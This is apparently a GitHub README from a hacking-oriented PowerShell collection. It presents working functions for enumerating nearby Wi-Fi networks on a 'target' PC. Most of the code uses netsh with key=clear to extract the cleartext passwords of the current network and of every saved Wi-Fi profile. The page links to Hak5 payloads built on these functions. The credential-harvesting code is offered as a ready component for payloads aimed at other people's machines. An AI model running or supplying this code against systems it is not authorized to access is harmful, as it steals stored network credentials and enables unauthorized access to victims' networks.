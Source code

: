 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Wifi-Info

## Description

These functions will help you enumerate your targets wifi, and the wifi nearby

## The Function

### [Nearby Networks] 

This quick snippet will get you the wifi connections visible from your targets PC 

```
$NearbyNetworks = (netsh wlan show networks mode=Bssid | ?{$_ -like "SSID*" -or $_ -like "*Authentication*" -or $_ -like "*Encryption*"}).trim()
```

### [Get-CurrentNetwork] 

This first function will get you the SSID and Password the target PC is currently connected to and save it to the variable $CurrentNetwork

```
function Get-CurrentNetwork {

$pro = netsh wlan show interface | Select-String -Pattern ' SSID '; $pro = [string]$pro;$pos = $pro.IndexOf(':');$pro = $pro.Substring($pos+2).Trim()

$pass = netsh wlan show profile $pro key=clear | Select-String -Pattern 'Key Content'; $pass = [string]$pass;$passPOS = $pass.IndexOf(':');$pass = $pass.Substring($passPOS+2).Trim()

return "$pro	:	$pass"

} 

$CurrentNetwork = Get-CurrentNetwork

```

### [Get-AllNetworks] 

This function will get you a list of all the wifi networks your target has joined and their passwords and save it to the variable $Networks

```
Function Get-Networks {
# Get Network Interfaces
$Network = Get-WmiObject Win32_NetworkAdapterConfiguration | where { $_.MACAddress -notlike $null }  | select Index, Description, IPAddress, DefaultIPGateway, MACAddress | Format-Table Index, Description, IPAddress, DefaultIPGateway, MACAddress 

# Get Wifi SSIDs and Passwords	
$WLANProfileNames =@()

#Get all the WLAN profile names
$Output = netsh.exe wlan show profiles | Select-String -pattern " : "

#Trim the output to receive only the name
Foreach($WLANProfileName in $Output){
    $WLANProfileNames += (($WLANProfileName -split ":")[1]).Trim()
}
$WLANProfileObjects =@()

#Bind the WLAN profile names and also the password to a custom object
Foreach($WLANProfileName in $WLANProfileNames){

    #get the output for the specified profile name and trim the output to receive the password if there is no password it will inform the user
    try{
        $WLANProfilePassword = (((netsh.exe wlan show profiles name="$WLANProfileName" key=clear | select-string -Pattern "Key Content") -split ":")[1]).Trim()
    }Catch{
        $WLANProfilePassword = "The password is not stored in this profile"
    }

    #Build the object and add this to an array
    $WLANProfileObject = New-Object PSCustomobject 
    $WLANProfileObject | Add-Member -Type NoteProperty -Name "ProfileName" -Value $WLANProfileName
    $WLANProfileObject | Add-Member -Type NoteProperty -Name "ProfilePassword" -Value $WLANProfilePassword
    $WLANProfileObjects += $WLANProfileObject
    Remove-Variable WLANProfileObject    
}
return $WLANProfileObjects
}

$Networks = Get-Networks
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 
[//]: # (Examples of scripts that have used your function) 
Listed below are payloads that have used one of these functions:

[Acid Burn](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-AcidBurn)

[ADV-Recon](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ADV-Recon)


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
